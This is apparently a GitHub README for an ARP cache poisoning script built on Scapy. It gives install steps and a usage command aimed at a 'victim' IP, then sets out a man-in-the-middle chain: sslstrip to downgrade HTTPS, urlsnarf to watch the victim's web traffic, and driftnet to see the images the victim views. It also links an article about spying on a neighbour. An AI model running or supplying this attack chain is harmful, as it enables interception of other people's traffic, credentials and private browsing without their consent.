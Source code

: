 # arpspoof.py

This script uses Scapy to perform a simple Arp Cache Poisoning attack.

## Setup

First install system dependencies:

	# Fedora 22/23
	sudo dnf install python python-devel python-pip

	# Fedora 21/20/19/18 and CentosOS/REHL 7.1
	sudo yum install python python-devel python-pip

	# Ubuntu/Debian/Backtrack/Kali
	sudo apt-get install python python-dev python-pip

Then install Scapy:

	sudo pip install scapy

Here are some other cool tools that you can use once you have run the script
and created a MITM:

__sslstrip__
https://github.com/moxie0/sslstrip

__driftnet__
http://null-byte.wonderhowto.com/how-to/hack-like-pro-use-driftnet-see-what-kind-images-your-neighbor-looks-online-0154253/

__dsniff__
http://www.monkey.org/~dugsong/dsniff/

## Usage

To perform an arp cache poisoning attack against victim with ip address 192.168.2.75 with
gateway 192.168.2.1 (with interface wlan0):

	python arpspoof.py -i wlan0 -g 192.168.2.1 -t 192.168.2.75

Once you have a MITM, you can downgrade HTTPS traffic to HTTP by running sslstrip in another terminal:

	sslstrip -l 10000

To monitor the victim's web traffic in real time, use urlsnarf (part of dsniff) in another
temrinal:

	urlsnarf -i wlan0

To view all images currently being viewed by the victim, use driftnet in another terminal:

	driftnet

Stop attack by hitting ctrl+c in your arpspoof.py terminal then closing out of all other tools.

